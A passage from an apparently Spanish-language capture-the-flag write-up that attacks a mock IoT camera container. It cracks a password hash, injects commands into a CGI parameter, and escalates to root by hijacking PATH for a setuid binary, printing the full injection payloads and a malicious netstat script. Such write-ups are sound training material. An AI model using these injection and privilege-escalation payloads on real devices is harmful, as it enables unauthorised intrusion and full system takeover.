

*`set +H` para evitar la expansión de `!` y comprobación del `QUERY_STRING` recibido.*



*Verificación de cómo `parse_qs` transforma el payload antes de ejecutar el comando.*

---

## 6. Cadena de explotación

### 6.1 Crackeo del hash de `support_eng`

```bash
echo 'support_eng:$6$W4m1C4m$9J84guN4Uwn7tKW/xAhs62BdkoryANgoXLx4rwo0S0hDMy2ftS7t2NqggdQM3/ml/.blmkss/VyX84A3QlIZl.' \
  > loot/support.hash

john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt \
  --fork=$(nproc) loot/support.hash
```

```text
XXXXX           (support_eng)
```

Verificación:

```bash
john --show --format=sha512crypt loot/support.hash
# support_eng:XXXXX
```



*`john` con `rockyou.txt` recupera la contraseña `XXXXX` para `support_eng`.*



*`john --show` confirma la credencial `support_eng:XXXXX`.*

Evidencias: `captures/12_john_crack.png`, `captures/36_john_show.png`,
`notes/12_john_crack.txt`, `notes/36_john_show.txt`.

### 6.2 Autenticación y RCE como `support_eng`

Petición sin credenciales (control de acceso):

```bash
curl -sS -i "http://172.17.0.2/cgi-bin/wifi_status.cgi?interface=wlan0"
```

```text
HTTP/1.0 401 Unauthorized
WWW-Authenticate: Basic realm="CamSec Pro Operator Console"
401 Unauthorized: Valid support_eng credentials required.
```



*Control de acceso: el CGI responde `401 Unauthorized` y solicita Basic auth.*

Petición autenticada con inyección:

```bash
curl -sS -u support_eng:camera -G \
  --data-urlencode "interface=wlan0; id; uname -a; hostname; pwd" \
  "http://172.17.0.2/cgi-bin/wifi_status.cgi"
```

```text
[*] Interface status for wlan0; id; uname -a; hostname; pwd
wlan0: error fetching interface information: Device not found
uid=1000(support_eng) gid=1000(support_eng) groups=1000(support_eng)
Linux whoami-camsec-iot 7.2.15+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali ...
whoami-camsec-iot
/app
```



*Inyección en `interface`: `id`, `uname -a`, `hostname` y `pwd` se ejecutan como `support_eng` (uid 1000).*

Evidencias: `captures/10_cgi_test.png`, `captures/13_cgi_rce.png`,
`notes/13_cgi_rce.txt`.

### 6.3 Enumeración post-RCE

```bash
curl -sS -u support_eng:XXXXX -G \
  --data-urlencode "interface=wlan0; find / -perm -4000 -type f 2>/dev/null; ls -l /usr/bin/cam_diag" \
  "http://172.17.0.2/cgi-bin/wifi_status.cgi"
```

```text
/usr/bin/su
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/mount
/usr/bin/chsh
/usr/bin/umount
/usr/bin/cam_diag
/usr/lib/openssh/ssh-keysign

-rwsr-xr-x 1 root root 16288 Nov  9 03:44 /usr/bin/cam_diag
```



*`find / -perm -4000` identifica `/usr/bin/cam_diag` como setuid root, además de los binarios estándar del sistema.*

Evidencia: `captures/14_enum_setuid.png`, `notes/14_enum_setuid.txt`.

### 6.4 PATH hijacking de `cam_diag` → root

Se crea un `netstat` malicioso en `/tmp` y se ejecuta `cam_diag` con `PATH`
controlado. El binario setuid conserva `euid=0` y `system("netstat -i")` ejecuta
el `netstat` de `/tmp` como root.

Los primeros intentos fallaron por la expansión de historial (`!`), por el
tratamiento de `;` y por comillas mal codificadas:



*Primer intento: la expansión de historial de bash (`!/bin/sh: event not found`) rompe el payload.*



*Segundo intento tras `set +H`: el payload se corta y solo se ejecuta `ifconfig wlan0`.*



*Tercer intento: comillas mal codificadas provocan `Syntax error: Unterminated quoted string`.*

Creación del script (payload URL-encoded, comillas dobles para proteger `#`):

```bash
curl -sS -u support_eng:XXXXX \
  "http://172.17.0.2/cgi-bin/wifi_status.cgi?interface=wlan0;\
echo%20%22%23!/bin/sh%22%20>/tmp/netstat;\
echo%20%22cp%20/bin/sh%20/tmp/rootsh%22%20>>/tmp/netstat;\
echo%20%22chmod%204755%20/tmp/rootsh%22%20>>/tmp/netstat"
```

Contenido resultante de `/tmp/netstat`:

```sh
#!/bin/sh
cp /bin/sh /tmp/rootsh
chmod 4755 /tmp/rootsh
```

Se da permiso de ejecución y se dispara el binario setuid:

```bash
curl -sS -u support_eng:XXXXX \
  "http://172.17.0.2/cgi-bin/wifi_status.cgi?interface=wlan0;\
chmod%20%2Bx%20/tmp/netstat;\
PATH=/tmp:/usr/bin:/bin%20/usr/bin/cam_diag;\
ls%20-l%20/tmp/rootsh"
```

```text
[*] CamSec Hardware Diagnostics Utility v1.08
[*] Checking network interface integrity...
-rwsr-xr-x 1 root root 129736 Nov  9 17:34 /tmp/rootsh
```



*`chmod x` (sin el `+`) deja `/tmp/netstat` sin permiso de ejecución; `cam_diag` recurre al `netstat` del sistema y `/tmp/rootsh` no se crea.*



*Con `chmod +x` el `netstat` de `/tmp` se ejecuta como root y crea `/tmp/rootsh` con permisos `-rwsr-xr-x`.*

Evidencias: `captures/23_path_hijack4.png`, `captures/24_fix_chmod.png`,
`notes/23_path_hijack4.txt`, `notes/24_fix_chmod.txt`.

### 6.5 Root y flag

```bash
curl -sS -u support_eng:XXXXX \
  "http://172.17.0.2/cgi-bin/wifi_status.cgi?interface=wlan0;\
/tmp/rootsh%20-p%20-c%20%22id;hostname;cat%20/root/flag.txt%22"
```

```text
uid=1000(support_eng) gid=1000(support_eng) euid=0(root) groups=1000(support_eng)
whoami-camsec-iot
Whoami{...}
```



*`/tmp/rootsh -p -c "id; hostname; cat /root/flag.txt"`: `euid=0(root)` y flag final.*

La flag se validó contra el script startlab.sh




*Ejecución de `exploits/exploit_chain.sh`: autenticación, RCE, PATH hijacking, root y flag en una sola corrida.*

Evidencia principal: `captures/25_root_flag.png`, `notes/25_root_flag.txt`.

---

## 7. Superficie adicional (554 / 8000 / 8443)

El archivo `/app/sys_telemetry.py` del contenedor (leído como root) muestra que los
tres servicios son **señuelos estáticos**:

```python
def run_rtsp_service():
    ... client.sendall(b"RTSP/1.0 200 OK\r\nCSeq: 1\r\nServer: CamSec-StreamServer/1.08\r\n\r\n")

def run_onvif_service():
    ... client.sendall(b"HTTP/1.1 200 OK\r\nServer: ONVIF-DeviceService/2.4\r\n"
                       b"Content-Type: application/soap+xml\r\n\r\n"
                       b"<s:Envelope ...><s:Body><tds:GetDeviceInformationResponse/>...")

def run_ssl_service():
    ... client.sendall(b"HTTP/1.1 400 Bad Request\r\nContent-Type: text/plain\r\n\r\nSSL Required\r\n")
```



*`/app/sys_telemetry.py`: los hilos de RTSP, ONVIF y "SSL" solo envían respuestas estáticas.*

- **554/RTSP:** devuelve siempre el mismo banner; no hay stream ni autenticación real.
- **8000/ONVIF:** devuelve una respuesta SOAP vacía y resetea la conexión; no expone
  información ni permite operaciones ONVIF reales.
- **8443:** responde en texto plano `400 Bad Request / SSL Required`; el handshake
  TLS falla con `wrong version number`. No es un servicio TLS funcional.
- **2222/SSH (host):** el `docker-proxy` acepta la conexión, pero el contenedor no
  tiene sshd escuchando; el escaneo de `172.17.0.2:22` está cerrado.



*`curl -k https://172.17.0.2:8443/` falla con `wrong version number`; `openssl s_client` no obtiene certificado.*

